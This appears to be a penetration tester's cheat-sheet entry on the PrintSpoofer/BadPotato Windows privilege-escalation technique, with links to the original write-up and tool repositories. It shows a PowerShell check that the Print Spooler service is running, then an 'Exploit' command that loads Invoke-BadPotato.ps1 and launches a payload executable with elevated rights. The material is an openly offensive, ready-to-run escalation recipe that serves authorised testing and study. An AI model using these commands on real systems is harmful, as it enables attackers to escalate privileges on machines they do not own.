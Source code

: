 # PrintSpoofer

* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1)

Check if Print Spooler service is running:

```
PS > Get-Service Spooler

Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler
```

Exploit:

```
PS > . .\Invoke-BadPotato.ps1; Invoke-BadPotato -C "C:\Users\snovvcrash\music\pwn.exe"
```
